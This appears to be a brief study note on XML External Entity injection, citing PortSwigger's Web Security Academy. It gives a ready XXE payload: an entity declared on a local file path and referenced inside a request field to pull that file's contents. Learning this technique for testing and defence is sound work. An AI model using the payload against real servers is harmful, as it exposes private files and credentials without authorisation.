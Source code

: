 # Extract File
https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files

## Define an External Entity for the file you want
`<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///filePathHere.txt" >
]>`

## Reference the External Entity
Add the `&xxe;` reference inside one of the expected request parms

## Set Full Request Body

<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///filePathHere.txt" >
]>
<query>
    <search>a</search>
    <country>&xxe;</country>
</query>




